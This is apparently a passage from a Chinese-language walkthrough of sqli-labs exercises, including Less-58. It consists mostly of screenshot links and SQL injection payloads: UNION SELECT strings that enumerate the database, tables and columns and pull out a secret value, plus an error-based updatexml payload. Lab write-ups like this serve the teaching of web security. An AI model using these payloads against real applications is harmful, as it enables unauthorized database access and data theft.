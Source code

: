 ![image-20201113092716798](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113092716798.png)

?id=-1" union select 1,2,3 --+

显示位 2，3

![image-20201113092926238](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113092926238.png)

?id=1" union select 1,2,database();

![image-20201113093058284](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113093058284.png)

id=-1" union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges'--+

![image-20201113093410312](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113093410312.png)

表名EAKNUWG0W2

?id=-1" union select 1,2,group_concat(column_name) from information_schema.columns where  table_name='EAKNUWG0W2'--+

![image-20201113093747682](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113093747682.png)

字段名id,sessid,secret_OH7M,tryy

?id=-1" union select 1,2,(select group_concat(secret_OH7M) from challenges.EAKNUWG0W2)--+

![image-20201113094004095](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113094004095.png)

fBWIoKAW1ImFDuonfwoyJNaV

![image-20201113094033612](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113094033612.png)

## 0X3ELess-58

判断闭合

?id=1'    //报错

?id=1' and 1=1;  //正常

?id=1' and 1=2;   //不正常

判断列数

![image-20201113095500922](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113095500922.png)

执行sql语句后，并没有返回数据库当中的数据

![image-20201113095704102](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201113095704102.png)



?id=1' and 1=(updatexml(1,concat(0x3a,(select database())),1))%23

报错注入
